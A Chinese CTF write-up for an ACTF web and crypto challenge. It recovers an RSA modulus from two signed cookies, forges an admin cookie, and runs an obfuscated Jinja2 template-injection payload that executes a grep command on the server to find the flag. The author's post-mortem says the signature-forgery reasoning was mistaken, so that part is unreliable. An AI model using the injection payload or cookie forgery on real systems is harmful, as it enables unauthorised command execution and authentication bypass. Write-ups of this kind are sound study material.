

这题把签名换成了PKCS#1_v1.5，简单了解下签名流程

PKCS#1 v1.5 会在哈希值外包裹一层固定格式的填充头（本题是SHA-256），填充的格式如下

```
00 01 FF FF FF ... FF FF 00 || DigestInfo || hash
```

DigestInfo（SHA-256的固定头）：`3031300d060960864801650304020105000420`

假设签名的str是`test`，`SHA256("test") = 9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08`

完整填充后的数据（本题是RSA-2048，要填充到256字节），完整的数据如下

```py
00 01 
FF FF FF ... FF FF (共202个FF) 
00 
3031300d060960864801650304020105000420 
9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08
```

即

```py
msg = '0001' + 'ff'*202 + '00' + '3031300d060960864801650304020105000420' + '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'
m = bytes_to_long(bytes.fromhex(msg))
```

根据下式生成签名


$$
sigature \equiv m^d \mod n
$$


题目的`private_key = RSA.generate(2048)`,查看源码可以知道e=65537，考虑如何获得n

通过两组签名：


$$
s_1 = (m_h + h_1)^d \mod n
$$


$$
s_2 = (m_h + h_2)^d \mod n
$$


`n = gcd(s1^e - m1,s2^e - m2)`，实现代码如下

```py
from Crypto.Util.number import *
from Crypto.Hash import SHA256
import base64
import hashlib
import gmpy2

def fast_pow_65537(s):
    s = gmpy2.mpz(s)
    # s^2
    s2 = s * s
    # 连续平方 15 次
    for _ in range(15):
        s2 = s2 * s2
    # 再乘一次s
    result = s2 * s
    return result
def extract_data(cookie_b64):
    cookie = base64.b64decode(cookie_b64).decode()
    msg_str = cookie.split('&')[0]
    sig_int = int(cookie.split('&')[1],16)
    msg_hash = SHA256.new(msg_str.encode()).hexdigest()
    return msg_str,msg_hash, sig_int
def PKCS1_V1_5_pad(msg):
    msg_hash = SHA256.new(msg.encode()).hexdigest()
    msg = '0001' + 'ff'*202 + '00' + '3031300d060960864801650304020105000420' + msg_hash
    return msg

cookie1 = 'eyJ1c2VyX25hbWUiOiAiYWFhYWEiLCAibG9naW5fdGltZSI6IDE3NDU2NTgxOTB9JjRlMTQ4MTQwOTI0MzlkYzMyM2I4NTZkOWViMDVhMmQwNWMwNjAwODZmM2QzN2VkYzRlNjYzY2E1YjcxYWFhYjEyODk2MzBlNjU5ZGE1N2FjYTZmOTg2Yzc1MTI4MTYzOGQyZWJkNTdjZTU3Y2VjZmYzZWZlZDc1ZGFhMTQ5NTNhZWQxZGRlZTk3Njg3NDI0OTk5ZGJlMjA0MjU4ODNjOThkZWQ2YzRiYmRhYjhjZWNhYjEwZjM4ZTZkMmY1NmI2MTM5MGEzOWY0MGIxNjFhNjgyMjNjYzEzYzlmZjExOGY3ODg4YmJkMmQzODMxNTQxOGFlZTU2N2IwZWZiZjAyOGJhNWI0MmFlMGE3MDNmMzVhM2RiNDZiYTZiM2Q1MGM2YmE3OWU0NmM3YWExZWE0NGU2NzI1ZGY5YTcxYWIwNTQ5NzBkOTFjOGI0ZmM5YjM3ZWQ4YTdhNzJkMmI3NGEwNDVhNzdkYWIwMjdmNzYwMTc1MTBkMzcxMjFmYzRhZTVkM2JlNzg2MzA0NjM5NzA2OWJkNDhiYWQ5YjY0NWU0ODk0ZjhiNjNhMDQ5ODI4MjExNDhmNDg5MzVmYjI0ZTljYjc2ODQ5ZGJkMWZhY2UyMWZjMjQyYjFiZjNjZWQzZDUzZGY3NDY5NDQ1MjM2MzY3NzRhODg5N2IyMmZiMWE5ZDQ0'
cookie2 = 'eyJ1c2VyX25hbWUiOiAiYmJiYmIiLCAibG9naW5fdGltZSI6IDE3NDU2NTgyMDl9JjFmZTg0Zjc2OWQwZWM1MmQxOTkzYzFlNmM0NjdmN2JmMjMyZTRhYWEyMTJmYzAwZTVmMThkMDM3N2Y1NTY5NDZhOTEwODhkN2RjYmRiMjYwMGJiNWY3NjY5MjU3MzI3NWViYzdmYmZiN2E2OGU4Yzk1YzYxZmIzNmVjMTkwMGQzOGIxYWMwYzM1MzFiNDYxNjBmNWRlMjU0NmI1NjliZjE2NjZiMjEwNWEwZDVlNmMwMDViMTcxNTNjNzM2NzRhNWI2NmNlMTAwZjZkNzA3YzI2MTUyZGJlMzk3YzljODg1OTJjZjkyODc2YmRkOGFiZGQxZDljN2E3ZmMxOTEwMTUzZjM0ODkwMDQ5NGI3NzQ2ZWM4M2RlZWRlZTc1YTAzZmNjMGJjOTIwYmVjMTM1MjMxOThmOGYyY2MzYjY4OTQ3NGY3NDdmNzU1ODM2ZmIyNjNiM2Y1MTM3NjdkMTk0ZjkxNzZiYzE2ZTc2NTFmMmVjZWY5ODY1OWFiYjIwZWFmZGNmOTk0NDdkZWQ3OGMyMjE2OGRkODRjOTYwOTVhMjk2YzNjNTM2NjExZTFiM2E5NzVlNjVhYTQ2Y2Y3NmYyY2QwNjY3ZDE4NGY0YWI1YjkxMTA5NWM4M2UxZDZiMmUwNjFhNTc5YjAxODE1MzdkYjkyZTM1MmUwYjEyZjQyNmEw'
msg1_str, msg1_hash, sig_int1 = extract_data(cookie1)
msg2_str, msg2_hash, sig_int2 = extract_data(cookie2)
msg1 = PKCS1_V1_5_pad(msg1_str)
msg2 = PKCS1_V1_5_pad(msg2_str)
m1 = bytes_to_long(bytes.fromhex(msg1))
m2 = bytes_to_long(bytes.fromhex(msg2))
diff1 = fast_pow_65537(sig_int1) - m1
diff2 = fast_pow_65537(sig_int2) - m2
N = gmpy2.gcd(diff1, diff2)
print(N)
# 20685208434977914664568451697708909063913361812346177770538178093669611428936026702553131473784224946381409921614642006527345801062840954561429585405738217869856428138712718431057292075596570110457324704930491387419748840585949076726869563636029087779821964524654905347985264765034047787486194114954522208000871089279981026611674523509692422522586943203685313607061067134210858277394608181637059923765572183501632765742579543395441006206722783680979761921847256672678920766713385983912922819635221701452645180737179969396251531147724334481000312928036463201243072506436533578768578693162426037724569300365679885356769
```

接下来考虑伪造签名，问了AI，`PKCS1_v1_5.new(pubkey).verify()`在校验的时候，只需要签名满足下面这个格式就能通过。

`b'\x00\x01' || b'\xff' * t || 3031300d060960864801650304020105000420 || sha256(msg)`，AI给出的脚本如下

```py
import base64
import json
import gmpy2
from Crypto.Hash import SHA256

# ==== 你需要提供的参数 ====
n = 20685208434977914664568451697708909063913361812346177770538178093669611428936026702553131473784224946381409921614642006527345801062840954561429585405738217869856428138712718431057292075596570110457324704930491387419748840585949076726869563636029087779821964524654905347985264765034047787486194114954522208000871089279981026611674523509692422522586943203685313607061067134210858277394608181637059923765572183501632765742579543395441006206722783680979761921847256672678920766713385983912922819635221701452645180737179969396251531147724334481000312928036463201243072506436533578768578693162426037724569300365679885356769
e = 65537

# ==== 想伪造的cookie内容 ====
payload = {
    "user_name": "admin",
    "login_time": 1234567890 # 任意，别太长就行
}

# ==== 计算消息hash ====
msg_str = json.dumps(payload, separators=(",", ":"))  # 注意保持和服务器一致
msg_bytes = msg_str.encode()
h = SHA256.new(msg_bytes)

# ==== 构造伪造的 padding结构 ====
def construct_emsa(hash_bytes):
    # PKCS#1 v1.5 DigestInfo模板 for SHA256
    digestinfo_prefix = bytes.fromhex(
        "3031300d060960864801650304020105000420"
    )
    T = digestinfo_prefix + hash_bytes
    # 构造完整padding：00 01 FF...FF 00 T
    padding_len = 2048 // 8 - len(T) - 3
    emsa = b'\x00\x01' + b'\xff' * padding_len + b'\x00' + T
    return emsa

emsa = construct_emsa(h.digest())

# ==== 取e次方根 ====
emsa_int = int.from_bytes(emsa, byteorder="big")

# 找s，使得 s^e ≈ emsa_int
forged_sig, exact = gmpy2.iroot(emsa_int, e)
if not exact:
    forged_sig += 1

# ==== 打包伪造的cookie ====
forged_sig_bytes = int(forged_sig).to_bytes((n.bit_length() + 7) // 8, byteorder="big")
sig_hex = forged_sig_bytes.hex()

packed = msg_str + "&" + sig_hex
cookie = base64.b64encode(packed.encode()).decode()

print("\n[+] 伪造成功！你的cookie是：\n")
print(cookie)
```

得到cookie

```
eyJ1c2VyX25hbWUiOiJhZG1pbiIsImxvZ2luX3RpbWUiOjEyMzQ1Njc4OTB9JjAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAy
```

用fenjing生成一个payload

```python
from fenjing import exec_cmd_payload, config_payload
import logging
import urllib
logging.basicConfig(level=logging.INFO)

def waf(s: str):  # 如果字符串s可以通过waf则返回True, 否则返回False
    blacklist = ["'", "_", "#", "&", ";"]
    return all(word not in s for word in blacklist)


if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "grep -r 'ACTF{'")
    shell_payload = urllib.parse.quote(shell_payload)
    print(f"{shell_payload=}")
```

得到

```
%7B%25set%20gr%3D%22%5Cx67%5Cx72%5Cx65%5Cx70%5Cx20%5Cx2d%5Cx72%5Cx20%5Cx27%5Cx41%5Cx43%5Cx54%5Cx46%5Cx7b%5Cx27%22%25%7D%7B%25set%20qw%3Dlipsum%7Cescape%7Cbatch%2822%29%7Cfirst%7Clast%25%7D%7B%25set%20gl%3Dqw%2A2%2B%22globals%22%2Bqw%2A2%25%7D%7B%25set%20bu%3Dqw%2A2%2B%22builtins%22%2Bqw%2A2%25%7D%7B%25set%20im%3Dqw%2A2%2B%22import%22%2Bqw%2A2%25%7D%7B%7Bg.pop%5Bgl%5D%5Bbu%5D%5Bim%5D%28%22os%22%29.popen%28gr%29.read%28%29%7D%7D
```



ACTF{CvE-2014-0160-Yyds_h34R78LeEd_ooB_D47A_onLY}

## 赛后复盘

比赛的时候就对签名构造很疑惑，赛后复盘了之后发现

```py
def parse_cookie(cookie_b64: str) -> Tuple[bool, str]:
    if not cookie_b64:
        return False, ""

    try:
        cookie = base64.b64decode(cookie_b64, validate=True).decode()
    except binascii.Error:
        return False, ""

    try:
        msg_str, sig_hex = cookie.split("&")
    except Exception:
        return False, ""

    msg_dict = json.loads(msg_str)
    msg_str_bytes = msg_str.encode()
    msg_hash = SHA256.new(msg_str_bytes)
    sig = bytes.fromhex(sig_hex)
    try:
        PKCS1_v1_5.new(public_key).verify(msg_hash, sig)
        valid = True
    except (ValueError, TypeError):
        valid = False
    return valid, msg_dict.get("user_name")
```

这里只要让`PKCS1_v1_5.new(public_key).verify(msg_hash, sig)`不抛出错误就能让valid为True，而不是让`PKCS1_v1_5.new(public_key).verify(msg_hash, sig)`返回True，前面都是瞎几把分析


